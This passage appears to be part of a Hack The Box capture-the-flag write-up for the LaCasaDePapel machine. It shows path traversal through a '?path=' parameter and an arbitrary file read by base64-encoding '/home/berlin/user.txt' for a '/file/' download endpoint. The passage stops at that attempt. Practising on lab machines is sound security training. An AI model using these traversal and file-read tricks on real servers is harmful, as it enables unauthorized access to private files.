 Normally you can just import it via the firefox preferences, but for some reason when I clicked import and entered the password, nothing happened.

I even tried `pk12util -d /home/kali/.mozilla/firefox/yphdb3oi.default/ -i gen.p12`

But it did not work.


So I actually ended up just downloading the Opera browser and using that to import the certificates and access the page.

We are given access to a private area with Season-1 and Season-2.

There's 22 .avi files to download.

The URL is "https://lacasadepapel.htb/?path=SEASON-1"

so we have a parameter for the path here, so maybe we can do some Local file inclusion?

I do `../` and it reveals one of the home directories. I can enter into the directories, but the files are not clickable.

And trying the path directly results in:

```
Error: ENOTDIR: not a directory, scandir '/home/berlin/downloads/../user.txt/'
    at Object.fs.readdirSync (fs.js:904:18)
    at /home/berlin/server.js:10:20
    at Layer.handle [as handle_request] (/home/berlin/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/berlin/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/berlin/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/berlin/node_modules/express/lib/router/layer.js:95:5)
    at /home/berlin/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/berlin/node_modules/express/lib/router/index.js:335:12)
    at next (/home/berlin/node_modules/express/lib/router/index.js:275:10)
    at expressInit (/home/berlin/node_modules/express/lib/middleware/init.js:40:5)
```

But if we look at the download path for the .avi files, they seem encoded:

`https://lacasadepapel.htb/file/U0VBU09OLTIvMDEuYXZp`

```
kali@kali:~/htb/LaCasaDePapel$ echo "U0VBU09OLTIvMDEuYXZp" | base64 -d ; echo;
SEASON-2/01.avi
```

Ok, so the download URL is base64 encoded. Can we use this to access the other files?

Let's try to download /home/berlin/user.txt


```
kali@kali:~/htb/LaCasaDePapel$ echo -n "/home/berlin/user.txt" | base64
L2hvbWUvYmVybGluL3VzZXIudHh0
```

So I try going to `https://lacasadepapel.htb//file/L2hvbWUvYmVybGluL3VzZXIudHh0`
